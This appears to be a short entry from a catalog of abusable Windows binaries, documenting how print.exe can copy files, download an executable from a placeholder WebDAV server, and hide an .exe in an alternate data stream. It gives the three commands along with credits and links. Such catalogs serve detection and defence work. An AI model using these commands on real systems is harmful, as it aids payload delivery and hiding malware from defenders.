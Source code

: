 ## Print.exe

* Functions: Download, Copy, Add ADS

```
print /D:c:\ads\file.txt:file.exe c:\ads\file.exe     
     
print /D:C:\ads\CopyOfFile.exe C:\ads\FileToCopy.exe

print /D:c:\outfolder\outfile.exe \\webdavserver\folder\file.exe     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/Oddvarmoe/status/985518877076541440
* https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410

Full path:
```
c:\windows\system32\print.exe
c:\windows\sysWOW64\print.exe
```

Notes:



 
